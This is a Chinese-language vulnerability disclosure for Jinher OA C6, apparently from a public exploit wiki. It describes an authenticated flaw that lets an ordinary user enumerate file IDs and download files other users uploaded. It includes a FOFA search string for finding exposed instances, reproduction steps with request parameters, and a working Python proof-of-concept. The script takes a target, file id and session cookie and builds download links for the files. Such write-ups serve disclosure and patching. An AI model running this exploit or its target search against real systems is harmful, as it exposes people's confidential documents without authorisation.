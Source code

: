 # 金和OA C6 后台越权敏感文件遍历漏洞

## 漏洞描述

金和OA C6 存在后台越权敏感文件遍历漏洞，普通用户通过遍历特殊参数可以获取其他用户上传的敏感文件

## 漏洞影响

> [!NOTE]
>
> 金和OA C6

## FOFA

>[!NOTE]
>
>app="Jinher-OA"

## 漏洞复现

登录后点击信息交流，发起协同页面

![](image/jh-5.png)

上传附件并上传发送给目标

> [!NOTE]
>
> 这里登录权限为管理员，我们自己发给自己就好，前文只是展现漏洞挖掘思路过程

![](image/jh-6.png)

成功收到上传的附件

![](image/jh-7.png)

点击查看时抓包，发现一个带有文件ID的请求包

![](image/jh-8.png)

返回了几个参数

```
var strFilePath = '../Resource/slaves/1/8b473ecb-7b39-4384-ada2-b0ec72c4f6ed.png';
var strFileType = 'png';
var strSid='3jvpvhs410m2wdbbficax5q5';
var strFileIDCode='us9w7xWE7do=';
var strId = '1229';
var strTxtReg = 'txt,ini,xml,config,htm,html,js,css,asp,aspx,jsp,cs,sql,inf,htc,log';
var strImgReg = 'jpg,gif,jpeg,png,ico';
var MD = '';
```

其中我们注意到 strFilePath 为文件的存储地址，我们更改 id参数为另一个值，且测试后发现 name文件名参数无关紧要

![](image/jh-9.png)

更改ID后发送请求包发现获得另一个文件的信息

访问Url，注意 **type参数 ** 需要为正确的文件后缀才可以访问

```
http://xxx.xxx.xxx.xxx/C6/control/OpenFile.aspx?id=1200&name=&type=pdf
```

![](image/jh-10.png)

这里更换一个普通用户测试是否可行，尝试遍历 id

![](image/jh-12.png)

![](image/jh-11.png)

存在 **strFilePath参数** 则是存在文件，为空则是文件已经不存在

同时抓包下载文件页面也可以看到可获取的参数

**FileID 与 FileIDCode**

![](image/jh-13.png)

于是只需要通过刚刚的ID遍历，获取两个关键参数就能下载其他人发送的敏感文件，且只需要普通用户权限

## 漏洞利用POC

> [!NOTE]
>
> POC只检测是否存在漏洞，且漏洞存在于后台需要登录
>
> 运行后访问链接即可下载文件

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 金和OA C6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_id, cookie):
    vuln_url = target_url + "/C6/control/OpenFile.aspx?id={}&name=&type=pdf".format(file_id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie":cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 Url: {}\033[0m".format(vuln_url))
        if "strFilePath =" in response.text and response.status_code == 200:
            strFilePath = re.findall(r"var strFilePath = '(.*?)';", response.text)[0]
            strFileType = strFilePath[-3:]
            strFileIDCode = re.findall(r"var strFileIDCode='(.*?)';", response.text)[0]
            strId = re.findall(r"var strId = '(.*?)';", response.text)[0]
            sid = re.findall(r'ASP.NET_SessionId=(.*?);', cookie)[0]
            if strFilePath != "":
                print("\033[36m[o] 目标 {} 存在漏洞, 获取文件信息:\n[o] 文件路径：{}\n[o] 文件类型：{}\n[o] 文件ID code：{}\n[o] 文件编号： {}\033[0m".format(target_url, strFilePath, strFileType,strFileIDCode, strId ))
                print("\033[32m[o] 文件下载链接为: {}/C6/JHSoft.Web.CustomQuery/uploadFileDownLoad.aspx?Decrypt=&FileID={}&FileIDCode={}&sid={}".format(target_url, strId, strFileIDCode, sid))
            else:
                print("\033[31m[x] 目标 {} 文件不存在     \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_id = str(input("\033[35mFile_id >>> \033[0m"))
    cookie = str(input("\033[35mCookie  >>> \033[0m"))
    POC_1(target_url, file_id, cookie)
```

![](image/jh-14.png)